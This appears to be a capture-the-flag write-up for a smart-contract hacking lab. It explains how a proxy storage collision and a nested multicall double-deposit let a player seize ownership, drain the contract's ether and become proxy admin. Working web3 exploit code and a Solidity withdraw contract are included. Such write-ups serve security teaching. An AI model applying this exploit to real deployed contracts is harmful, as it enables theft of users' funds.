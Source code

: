 the proxy storage is overlapped with the implementation storage, meaning `pendingAdmin` is `owner` and `admin` is `maxBalance`. First we need to call `proposeNewAdmin` with our address, this will make us the owner. Once we are the owner of the contract, we can whitelist ourselves to call the whitelisted functions. Now, we will need to modify `maxBalance` so we can set our address there and that would make us the admin of the proxy. To achieve this, we need to extract all the ether from the contract, the initial state has some ether from the original owner that we can't directly extract. The `multicall` function prevents from calling multiple times the `deposit` function, but what we can do is call `multicall` again and pass it a second call to `deposit`, effectively adding twice the value to the balance of the player. From here, we can call `execute` extracting the total value held in the contract and lastly, once the contract is emptied, call `setMaxBalance` with our address to make us the admin of the proxy.

```
const dataProposeAdmin = web3.eth.abi.encodeFunctionCall({
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{
			"name": "_newAdmin",
			"type": "address"
    }]
}, [player]);

await contract.sendTransaction({ data: dataProposeAdmin });

await contract.addToWhitelist(player);

const dataDeposit = web3.eth.abi.encodeFunctionCall({
    name: 'deposit',
    type: 'function',
    inputs: []
}, []);

const dataMulticall = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data',
    }]
}, [[dataDeposit]]);

await contract.multicall([dataDeposit, dataMulticall], { value: toWei('1') });

await contract.execute('<withdraw contract address>', toWei('2'), '0x');

await contract.setMaxBalance(web3.utils.toBN(player));
```

```
contract Withdraw {
    address payable owner;

    constructor() public {
        owner = msg.sender;
    }

    function withdraw() public {
        owner.transfer(address(this).balance);
    }

    receive() external payable {}
}
```
